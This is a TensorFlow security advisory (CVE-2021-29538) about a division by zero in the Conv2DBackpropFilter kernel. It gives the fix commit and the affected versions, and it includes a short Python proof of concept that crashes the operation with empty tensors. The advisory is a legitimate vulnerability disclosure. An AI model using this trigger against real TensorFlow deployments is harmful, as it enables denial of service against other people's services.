 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-027.md
## TFSA-2021-027: Division by zero in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29538

### Impact
An attacker can cause a division by zero to occur in `Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
filter_sizes = tf.constant([0, 0, 0, 0], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 1, 1, 1],
  use_cudnn_on_gpu=False,
  padding='SAME',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/tensorflow/core/kernels/conv_grad_filter_ops.cc#L513-L522)
computes a divisor based on user provided data (i.e., the shape of the tensors
given as arguments):

```cc
const size_t size_A = output_image_size * filter_total_size;
const size_t size_B = output_image_size * dims.out_depth;
const size_t size_C = filter_total_size * dims.out_depth;
const size_t work_unit_size = size_A + size_B + size_C;
const size_t shard_size = (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

If all shapes are empty then `work_unit_size` is 0. Since there is no check for
this case before division, this results in a runtime exception, with potential
to be abused for a denial of service.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/tensorflow/tensorflow/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
